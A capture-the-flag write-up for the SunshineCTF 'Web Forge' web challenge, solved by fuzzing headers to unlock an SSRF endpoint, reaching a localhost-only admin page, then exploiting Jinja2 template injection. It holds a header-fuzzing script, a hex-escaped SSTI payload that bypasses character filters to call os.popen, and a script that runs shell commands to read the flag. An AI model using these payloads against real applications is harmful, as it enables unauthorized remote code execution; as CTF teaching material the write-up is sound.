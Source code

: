 # Web Forge

```
NOTE FROM ADMINS: Use of automated fuzzing tools are allowed for this challenge. Fuzzing. Not Crawling. All endpoints aside from one are rate limited.
https://wormhole.sunshinectf.games/
```

Visit <https://wormhole.sunshinectf.games/fetch>, an error is given:

```
403 Forbidden: missing or incorrect SSRF access header
```

Visit <https://wormhole.sunshinectf.games/robots.txt>, it hints the hidden `/admin` endpoint and the missing header for `/fetch`:

```
User-agent: *
Disallow: /admin
Disallow: /fetch

# internal SSRF testing tool requires special auth header to be set to 'true'
```

Try different auth headers:

```python
import requests

url = "https://wormhole.sunshinectf.games/fetch"
# headers.txt downloaded from https://github.com/devanshbatham/headerpwn/blob/main/headers.txt
headers_to_try = [line.split(":")[0] for line in open("headers.txt")]
values = ["true"]

for h in headers_to_try:
    for v in values:
        r = requests.get(url, headers={h: v}, allow_redirects=False, timeout=5)
        print(f"{h}: {v} -> {r.status_code}")
        if r.status_code != 403:
            print("Possible winner:", h, v)
            print(r.text[:500])
            raise SystemExit
```

The corrent answer is `Allow: true` header. After that, we can access the `/fetch` endpoint. It has a form for ssrf:

```html
<div class="form-group">
    <label for="url">Target URL</label>
    <input type="url" id="url" name="url" placeholder="https://example.com" required>
    <small class="hint">Enter a complete URL including http:// or https://</small>
</div>
```

So we can POST for SSRF. We want to access `/admin`, which seems to only allow access from localhost:

```python
import requests

url = "https://wormhole.sunshinectf.games/fetch"

r = requests.post(
    # not working
    #url, headers={"Allow": "true"}, data={"url": "https://wormhole.sunshinectf.games/admin"}
    # working
    url, headers={"Allow": "true"}, data={"url": "http://127.0.0.1:8000/admin"}
)
print(r.text)
```

It says `Request failed: Missing template parameter`, so the next step is template injection. Try typical Jinja injection payload from <https://onsecurity.io/article/server-side-template-injection-with-jinja2/>, until we find that the server forbids `.` or `_`, but we can still execute arbitrary command with:

{% raw %}
```python
{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('command')['read']()}}
```
{% endraw %}

It does work. Then, we only need to read flag out from the directory:

{% raw %}
```python
import requests

url = "https://wormhole.sunshinectf.games/fetch"


def run(cmd):
    r = requests.post(
        url,
        headers={"Allow": "true"},
        data={
            "url": "http://127.0.0.1:8000/admin?template={{request['application']['\\x5f\\x5fglobals\\x5f\\x5f']['\\x5f\\x5fbuiltins\\x5f\\x5f']['\\x5f\\x5fimport\\x5f\\x5f']('os')['popen']('"
            + cmd
            + "')['read']()}}"
        },
    )
    print(r.text)

run("ls -al")
run("cat f*")
```
{% endraw %}

Flag: `sun{h34der_fuzz1ng_4nd_ssti_1s_3asy_bc10bf85cabe7078}`.
